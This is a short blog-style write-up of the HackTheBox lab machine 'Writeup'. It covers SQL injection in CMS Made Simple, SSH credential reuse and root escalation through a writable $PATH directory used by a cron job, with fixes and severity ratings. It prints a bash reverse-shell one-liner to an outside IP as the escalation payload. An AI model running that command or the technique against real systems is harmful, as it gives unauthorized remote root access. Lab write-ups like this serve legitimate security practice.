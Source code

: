 ```yaml
---
layout: post
title: "Writeup (HTB) Walkthrough"
date: 2019-09-29
---
```


Writeup is a vulnerable machine from [HackTheBox]. 
Write up is rated as an easy box, which is supposed to be close to real-life scenario.
In this machine one gets to practice enumeration, exploits and $PATH hijacking.

**Vulnerable System**: Writeup (HacktheBox)
===========================================

**Operating System**: Debian

**Kernel**: 4.9.0-8-amd64 x86_64

**Vulnerability Exploited**: CMS Made Simple SQL Injection

**Exploit Used**: CMS Made Simple \< 2.2.10 - SQL Injection

**Proof of Concept Code**: https://www.exploit-db.com/exploits/46635

**Vulnerability Explained**: Due to SQL Injection vulnerability present in CMS
Made Simple, a malicious user can obtain username and password for the
application. Coincidently, the same credentials worked for SSH.

**Vulnerability fix**: Upgrade the software to the newest version.

**Severity**: **Medium**

**Privilege Escalation Vulnerability**: Cronjob/Writeable Directory in \$PATH
variable

**Exploit Used**: Custom

**Proof of Concept Code**: bash -i \>& /dev/tcp/10.10.15.99/443 0\>&1

**Privilege Escalation Vulnerability Explained:** A background job with root
privileges triggered every time a new user would sign into the system. The job
ran executable run-parts with the path variable. Due to one of the directories
in the path prior to where the executable was residing was writeable, another
executable was created with reverse shell code inside. The next time a user
signed in the reverse shell with root privileges was obtained.

**Vulnerability fix**: Implement Strong Access Control on directories assigned
in \$PATH variable

**Severity**: **High**

Methodology
-----------

-   Port Scanning (nmap)

-   Port 80 Enumeration (browser)

-   Discovered SQL Injection Vulnerability in CMS (searchsploit/exploit-db)

